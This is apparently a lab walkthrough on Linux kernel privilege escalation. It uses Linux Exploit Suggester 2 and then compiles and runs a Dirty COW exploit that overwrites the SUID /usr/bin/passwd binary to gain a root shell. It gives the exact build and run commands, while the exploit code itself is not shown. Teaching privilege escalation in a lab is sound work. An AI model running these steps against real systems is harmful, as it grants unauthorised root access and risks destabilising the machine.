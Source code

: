 # Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux [Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) tool to identify potential kernel exploits on the current system:

`perl /[path]/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "[Dirty COW](https://dirtycow.ninja/)" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell.

Compile the code and run it (note that it may take several minutes to complete):

`gcc -pthread /[path]/dirtycow/c0w.c -o c0w`\
`./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`
